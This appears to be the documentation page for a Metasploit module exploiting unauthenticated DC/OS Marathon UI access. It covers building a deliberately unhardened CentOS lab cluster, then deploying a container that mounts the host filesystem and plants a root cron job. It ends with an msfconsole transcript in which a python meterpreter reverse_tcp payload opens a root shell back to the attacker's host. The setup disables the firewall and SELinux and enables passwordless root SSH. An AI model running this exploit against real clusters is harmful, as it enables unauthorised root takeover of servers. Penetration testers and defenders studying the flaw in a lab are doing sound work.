 # Vulnerable Application
Utilizing the DCOS Cluster's Marathon UI, an attacker can create
a docker container with the '/' path mounted with read/write
permissions on the host server that is running the docker container.
As the docker container excutes command as uid 0 it is honored
by the host operating system allowing the attacker to edit/create
files owed by root. This exploit abuses this to creates a cron job
in the '/etc/cron.d/' path of the host server.

*Notes: The docker image must be a valid docker image from 
hub.docker.com. Further more the docker container will only
deploy if there are resources available in the DC/OS

## DCOS
This Expoit was tested with CentOS 7 as the host operating system for
the 2 services of the DCOS cluster. With DCOS version 1.7 and 1.8, with
Defualt 'custom' installation for on site premise setup. Only the Install
part of the DCOS guide was completed, the system hardening and securing
your cluster section where skipped. This is to represent a 'Defualt' install
with a system admin conducting hasty deployments taking no thought about security.


## To Setup Your Cluster
I recommend doing a 'On-Premies'/custom
cluster. https://dcos.io/docs/1.8/administration/installing/custom/
Create a virtual CentOS machine, install requirements base on the above
guide.
 
```bash
# The TLDR from the above guide
sudo systemctl stop firewalld && sudo systemctl disable firewalld
sudo yum install -y tar xz unzip curl ipset ntp
systemctl start ntpd
systemctl enable ntpd
sudo sed -i s/SELINUX=enforcing/SELINUX=permissive/g /etc/selinux/config && \
   sudo groupadd nogroup && sudo reboot
```

Install a supported version of docker on the CentOS systems
https://dcos.io/docs/1.8/administration/installing/custom/system-requirements/install-docker-centos/

```bash
# The TLDR of the above guide
sudo yum -y remove docker docker-common container-selinux
sudo yum -y remove docker-selinux
sudo yum install -y yum-utils
sudo yum-config-manager \
   --add-repo \
   https://docs.docker.com/engine/installation/linux/repo_files/centos/docker.repo
sudo yum-config-manager --enable docker-testing
sudo yum makecache fast
sudo yum -y install docker-engine-1.11.2
sudo systemctl start docker
sudo systemctl enable docker
sudo echo overlay > /etc/modules-load.d/overlay.conf
sudo reboot
```

Once the CentOS machine has rebooted, edit the systemctl
service file for docker and change the ExecStart- line to
`ExecStart=/usr/bin/docker daemon --storage-driver=overlay -H fd://`
restart the docker service and verify it is running.
lastely generate ssh rsa keys for authentication. And update the 
/etc/ssh/sshd_config file to support root login.

```bash
ssh-keygen -t rsa -b 4096
# Press enter until complete, DO NOT PUT A PASSWORD.
cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa # save the output you will need it for later
rm ~/.ssh/id_rsa # before doing this make sure you have saved a copy for later
```

Shut down the CentOS vm, take a snapshot. (This will be your base)
clone the VM 2 times. One will be DCOS-Master, the Other DCOS-Agent.
Start both virtual machines. Login and get their current IP address.
I recommend giving them static IPs if you have further use for the cluster.

From here use another linux machine with docker installed to finish
the installation process. I used a ubuntu machine with docker installed.

Follow the custom CLI guide for creating the required files in 
the genconf folder.
https://dcos.io/docs/1.8/administration/installing/custom/cli/

Example genconf/config.yaml
```
---
agent_list:
- 192.168.0.10
bootstrap_url: file:///opt/dcos_install_tmp
cluster_name: DCOS
exhibitor_storage_backend: static
ip_detect_filename: /genconf/ip-detect
master_discovery: static
master_list:
- 192.168.0.9
process_timeout: 10000
resolvers:
- 8.8.8.8
- 8.8.4.4
ssh_port: 22
ssh_user: root
```
Example genconf/ip-detect
```bash
#!/usr/bin/env bash
set -o nounset -o errexit
export PATH=/usr/sbin:/usr/bin:$PATH
ip=$(ip addr show ens33)
echo $( echo $ip | grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | head -1)
```

place your id_rsa ssh key into the genconf file and rename the
file to ssh_key and `chmod 0600 genconf/ssh_key`

Deploying the cluster
in the folder containing the genconf folder do the following.
NOTE: if following the cli install from DCOS itself, it will fail
if you do --install-prereqs. It will install an unsupported version of
docker.

```bash
curl -O https://downloads.dcos.io/dcos/stable/dcos_generate_config.sh
chmod +x dcos_generate_config.sh
sudo ./dcos_generate_config.sh --genconf
sudo ./dcos_generate_config.sh --preflight
# If all preflight checks pass
sudo ./dcos_generate_config.sh --deploy
# get a cup of coffie
# wait a minute or two after deploy completes
sudo bash dcos_generate_config.sh --postflight
```

If all is passing navigate to http://<master_ip>:8080/
You should see the Marathon UI web application.

# Exploitation
This module is designed for attacker to leaverage the creatation of a
docker contianer with out authentication through the DCOS Marathon UI
to gain root access to the hosting server of the docker container 
in the DCOS cluster.

## Options
- RHOST is the target IP/Hostname that is hosting the Marathon UI Web application
- RPORT is the Port the Marathon UI service is running on.
- DOCKERIMAGE is the hub.docker.com docker container image you are wanting to have the DCOS Cluster to deploy for this exploit.
- TARGETURI this is the path to make the Marathon UI web request to. By default this is /v2/apps
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.
- CONTAINER_ID is optional if you want to have your container docker have a human readable name else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/dcos_marathon
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/dcos_marathon 
msf exploit(dcos_marathon) > set RHOST 192.168.0.9
RHOST => 192.168.0.9
msf exploit(dcos_marathon) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(dcos_marathon) > set LHOST 192.168.0.100
LHOST => 192.168.0.100
msf exploit(dcos_marathon) > set verbose true
verbose => true
msf exploit(dcos_marathon) > check
[*] 192.168.0.9:8080 The target appears to be vulnerable.
msf exploit(dcos_marathon) > exploit 

[*] Started reverse TCP handler on 192.168.0.100:4444 
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[*] The docker container is running, removing it
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (39690 bytes) to 192.168.0.10
[*] Meterpreter session 1 opened (192.168.0.100:4444 -> 192.168.0.10:54468) at 2017-03-01 14:22:02 -0500
[+] Deleted /etc/cron.d/FOWkTeZL
[+] Deleted /tmp/TIWpOfUR

meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 3.10.0-327.36.3.el7.x86_64 #1 SMP Mon Oct 24 16:09:20 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
